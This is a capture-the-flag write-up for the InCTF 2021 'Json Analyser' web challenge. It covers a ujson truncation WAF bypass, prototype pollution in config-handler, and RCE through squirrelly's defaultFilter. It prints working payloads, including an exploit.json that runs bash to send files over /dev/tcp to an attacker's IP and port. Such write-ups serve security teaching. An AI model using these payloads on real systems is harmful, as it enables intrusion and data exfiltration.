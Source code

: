 ```yaml
---
title: Json Analyser - InCTF Internationals 2021
date: 2021-08-15
author: 1nt3rc3pt0r
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
tags:
 - Prototype_Pollution
 - Json_Interoperability 
 - InCTFi
---
```


**tl;dr**

+ Json_Interoperability - `/verify_roles?role=supersuperuseruser\ud800","name":"admin`
+ Prototype_Pollution - `{"constructor":{"prototype":{"test":"123"}}}` in config-handler


<!--more-->

<!-- rce can be found [here](exploit.json) -->

**Challenge points:** 1000
**Challenge Author:** [1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_)
**Source Code:** [here](json_analyser.zip)

## Challenge Description

Welcome to JSON Analyser. Verify your role and get Subscription ID. Then start looking into your dump json file.


## Solution

### **Part - I:**

Looking into the source, one can find that the player has to get subscription_code first inorder to upload a Json file.

``` 
    if "superuser" in role:
        role=role.replace("superuser",'')
    if " " in role:
        return "n0 H3ck1ng"
    if len(role)>30:
        return "invalid role"
    data='"name":"user","role":"{0}"'.format(role)
    no_hecking=re.search(r'"role":"(.*?)"',data).group(1)
    if(no_hecking)==None:
        return "bad data :("
    if no_hecking == "superuser":
        return "n0 H3ck1ng"
    data='{'+data+'}'
    try:
        user_data=ujson.loads(data)
    except:
        return "bad format" 
```

The goal is to bypass waf and get subscription_code.

Payload:
 - `/verify_roles?role=supersuperuseruser\ud800","name":"admin` 
 - This happens because of `Character Truncation` while using ujson and `last-key precedence` when duplicate keys exists.   [read_more_about_this](https://labs.bishopfox.com/tech-blog/an-exploration-of-json-interoperability-vulnerabilities)

### **Part - II:**

After retrieving subscription_code, players can now upload their json file providing subscription_code and get it's preview

```
    if(req.body.pin !== "673307-0496-1001122"){
        return res.send('bad pin')
    }
    if (!req.files || Object.keys(req.files).length === 0) {
      return res.status(400).send('No files were uploaded.');
    }
    uploadFile = req.files.uploadFile;
    uploadPath = __dirname + '/package.json' ;
    uploadFile.mv(uploadPath, function(err) {
        if (err)
            return res.status(500).send(err);
        try{
            var config = require('config-handler')();
        }
        catch(e){
            const src = "package1.json";
            const dest = "package.json";
            fs.copyFile(src, dest, (error) => {
                if (error) {
                    console.error(error);
                    return;
                }
                console.log("Copied Successfully!");
            });
            return res.sendFile(__dirname+'/static/error.html')
        }
```

as you can see `package.json` file is replaced with uploaded file and then it's been loaded by `var config = require('config-handler')();`

config-handler is vulnerable to Prototype_Pollution

`poc.json`
```
{
"constructor":{
    "prototype":
        {"test":"works"}
    }
}
```

`poc.js`
```
const express = require('express');
const app = express();
port = 8081

app.get('/', function (req, res) {
    const config = require('config-handler')();
    console.log(test)
    console.log(config)
});
var server= app.listen(port, () => {
    console.log(`Example app listening at http://localhost:${port}`)
});
```


### **Part - III:**

From the Dockerfile it's clear that user needs to get RCE inorder to retrieve flag. Now players need to Leverage the Prototype Pollution in `config-handler` to gain RCE using `squirrelly-js` module.

`exploit.json`
```
{
    "name": {
      "__proto__":{
         "defaultFilter" : "e'));process.mainModule.require('child_process').execSync('/bin/bash -c \\'cat /* > /dev/tcp/<ip>/<port>\\'')//"
      }
     },
    "version": "1.0.0",
    "description": "",
    "main": "app.js",
    "dependencies": {
      "config-handler": "^2.0.3",
      "express": "^4.17.1",
      "express-fileupload": "^1.2.1",
      "nodemon": "^2.0.12",
      "squirrelly": "^8.0.8"
    },
    "devDependencies": {},
    "scripts": {
      "test": "echo \"Error: no test specified\" && exit 1"
    },
    "author": "",
    "license": "ISC"
 }
```
Why defaultFilter? [see_here](https://github.com/squirrellyjs/squirrelly/blob/master/src/compile-string.ts#L128)

## Flag:

inctf{Pr0707yp3_P011u710n5_4r3_D34dly}
